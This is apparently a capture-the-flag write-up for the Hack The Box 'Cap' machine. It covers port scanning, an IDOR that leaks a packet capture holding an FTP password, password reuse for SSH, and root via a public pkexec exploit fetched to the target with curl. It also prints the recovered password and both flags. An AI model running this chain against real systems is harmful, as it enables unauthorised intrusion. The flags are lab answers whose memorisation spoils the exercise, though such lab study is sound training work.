 ```yaml
---
layout: default
title: Cap
---
```


## TL;DR

Using IDOR to achieve ftp password from .pcap file, which is reused as `nathan` password. Escalating to root using known exploit on sudo version.

### Recon

we start with `nmap`, using this command:
```bash
nmap -p- -sVC --min-rate=10000 $target
```

![nmap results](image.png)

As we can see, port `21` is opened, with `ftp` running on it, port `22` is opened with `ssh` on it, and port `80` with http server.
```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    Gunicorn
|_http-title: Security Dashboard
|_http-server-header: gunicorn
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

We can see for known vulnerabilities for the `ftp` version, using `searchsploit`. nothing interesting except `DoS` is popping up:
```bash
┌──(agonen㉿kali)-[~/htb/Cap]
└─$ searchsploit vsftpd 3.0.3
----------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                             |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
vsftpd 3.0.3 - Remote Denial of Service                                                                                                                    | multiple/remote/49719.py
----------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

### Exploit IDOR to achieve nathan's password ftp server

inside the website, we can navigate to "Security Snapshot":

![website](image-2.png)

This is the url that we are in we entered, http://10.10.10.245/data/10, when we press the download button the file `pcap.10` is being downloaded.

We can try to browse to this url instead, http://10.10.10.245/data/0, and exploit the `IDOR` vulnerability, and by this way getting `pcap.0`, which is capture file of other stream.

I used wireshark to analyze the `pcap` file, inside the 3th TCP stream I found the FTP login:

![achieve password](image-1.png)

So, the username for ftp is `nathan` and the password `Buck3tH4TF0RM3!`.

![ftp login successful](image-3.png)

### Get user flag from ftp server

I saw there are multiple files inside this ftp server, so I used this command to get all files recursively. note, the character `\` isn't part of the password, but it's necessary, because `!` is a special character and i must escape this character.
```bash
wget -m ftp://nathan:Buck3tH4TF0RM3\!@$target
```

![got all files recursively](image-4.png)

and now, we can achieve the user flag:
```bash
┌──(agonen㉿kali)-[~/htb/Cap/10.10.10.245]
└─$ cat user.txt    
da53f416127ecd4325c068bbc1a9c3e5
```

### Privilege Escalation to Root

we try to use the password of `nathan` for `ftp` to check if it works too for the `ssh` service, and surprisingly, it works!
```bash
ssh nathan@$target
```
![ssh successful connection](image-5.png)

let's start our journey for escalation, first we'll go to `sudo -l`:
```bash
nathan@cap:~$ sudo -l
Sorry, user nathan may not run sudo on cap.
```

Then, we'll go to use our `linpeas.sh` (we can start from this directly, it'll show us our sudo permissions anyway)

![linpeas results](image-6.png)

As we can see, it might be vulnerable to `CVE-2021-4034` and to `CVE-2022-2588`.

```bash
╔══════════╣ Sudo version
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-version                                                                                                              
Sudo version 1.8.31                                                                                                                                                                          

╔══════════╣ CVEs Check
Vulnerable to CVE-2021-4034                                                                                                                                                                  

Vulnerable to CVE-2021-3560

Potentially Vulnerable to CVE-2022-2588
```

I googled for exploit, and find this github repo https://github.com/kimusan/pkwner.

Then, I simply downloaded and set up the http server on my local machine:
```bash
┌──(agonen㉿kali)-[~/htb/Cap/pkwner]
└─$ ls
pkwner.py  pkwner.sh  README.md  screenshot.png  screenshot-py.gif  screenshot-sh.gif
                                                                                                                                                             
┌──(agonen㉿kali)-[~/htb/Cap/pkwner]
└─$ python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
10.10.10.245 - - [22/Oct/2025 16:52:40] "GET /pkwner.sh HTTP/1.1" 200 -
```

and on the remote machine:
```bash
curl http://10.10.16.49:8081/pkwner.sh -o /tmp/pkwner.sh
```

now, we just need to execute the exploit:

![achieve root flag](image-7.png)

```bash
root@cap:/home/nathan# cat /root/root.txt
af5909d5b969291c6afd244f822b7bdd
```


**User Flag:*****`da53f416127ecd4325c068bbc1a9c3e5`***

**Root Flag:*****`af5909d5b969291c6afd244f822b7bdd`***
